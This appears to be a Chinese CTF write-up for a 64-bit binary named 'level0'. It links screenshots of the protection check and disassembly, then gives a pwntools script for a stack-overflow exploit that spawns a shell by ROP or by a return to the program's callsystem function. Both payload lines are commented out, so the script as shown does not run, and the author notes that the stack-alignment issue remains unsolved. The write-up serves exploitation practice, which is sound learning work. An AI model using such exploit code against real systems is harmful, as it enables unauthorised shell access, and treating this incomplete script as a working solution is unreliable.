 # level0

检查程序保护

![image-20240511111309843](../图片/image-20240511111309843.png)

查看反汇编

![image-20240511111337872](../图片/image-20240511111337872.png)

![image-20240511111348793](../图片/image-20240511111348793.png)

![image-20240511111941073](../图片/image-20240511111941073.png)

很明显存在栈溢出，该题是x64，在写payload的时候遇到了一些小问题，具体如下

```python
from pwn import *
import time 

sh = process('./level0')
elf = ELF('./level0')
callsys_addr = elf.symbols['callsystem']
#gdb.attach(sh)
#sleep(15)

pop_rdi_ret = 0x400663
binsh = 0x400684
system_addr = 0x400460

sh.recvline()
#第一种试想构造参数然后调用system函数，但是程序遇到movaps指令需要栈对齐，目前没想到解决方案
#payload = flat([b'a'*136,p64(pop_rdi_ret),p64(binsh),p64(system_addr),p64(0xcafecafecafecafe)])

#第二种方法直接调用程序里写的callsystem函数，注意栈对齐
#跳过push rbp 保证movaps指令将XMM寄存器中的值存储到内存时，目标地址按照16字节对齐
#payload = flat([b'a'*136,p64(callsys_addr+1)])

sh.sendline(payload)
sh.interactive()
```



总结：这是练习的第一道x64题目，整体思路没变，但是细节方面需要多加注意，栈对齐问题目前还没有解决

